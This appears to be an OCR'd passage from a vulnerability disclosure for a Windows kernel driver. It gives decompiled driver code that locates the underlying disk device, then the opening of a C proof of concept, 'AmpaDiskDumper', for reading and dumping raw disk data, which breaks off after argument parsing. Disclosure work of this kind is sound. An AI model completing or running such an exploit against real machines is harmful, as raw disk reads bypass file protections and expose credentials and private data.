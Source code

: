 ```c
  ObfReferenceObject(lVar6);
  lVar8 = *(longlong *)(lVar2 + 0x30);
  local_2e0 = L"Disk";
  local_2e8 = 8;
  local_2e6 = 10;
  while (lVar8 = IoGetLowerDeviceObject(lVar8), lVar8 != 0) {
    lVar6 = *(longlong *)(*(longlong *)(lVar8 + 8) + 0x30);
    local_2f8 = *(undefined8 *)(lVar6 + 0x18);
    uStack752 = *(undefined8 *)(lVar6 + 0x20);
    iVar4 = RtlCompareUnicodeString(local_2f8,&local_2e8,&local_2f8,1);
    if (iVar4 == 0) {
      ObfDereferenceObject(*(undefined8 *)(lVar2 + 0x30));
      *(longlong *)(lVar2 + 0x30) = lVar8;
      break;
    }
    ObfDereferenceObject(lVar8);
  }
LAB_000114dc:
  *(undefined8 *)(lVar3 + 0x20) = *(undefined8 *)(lVar2 + 0x30);
  *(undefined4 *)(param_2 + 0x30) = uVar10;
  IofCompleteRequest(param_2,0);
  FUN_00012810(local_38 ^ (ulonglong)auStack840);
  return;
}
```
### Proof of Concept - Disk Read & Dump
```c
#include <windows.h>
#include <winioctl.h>
#include <strsafe.h>
#include <stdio.h>

static void HelpMe() 
{
    wprintf(L"\nUsage: AmpaDiskDumper.exe -o <out_file>\n\n");
}

int wmain(int argc, wchar_t** argv) 
{
    const wchar_t* target = L"DISK0\\Partition0";
    const wchar_t* outPath = nullptr;
    ULONGLONG offset = 0;
    ULONGLONG length = 1ULL << 20;

    for (int i = 1; i < argc; ++i) 
    {
        if (_wcsicmp(argv[i], L"-o") == 0 && i + 1 < argc) 
        {
            outPath = argv[++i];
        }
        else 
        {
            HelpMe();
            return 1;
        }
    }

    if (!outPath) 
    { 
        HelpMe(); 
        return 1; 
    }
```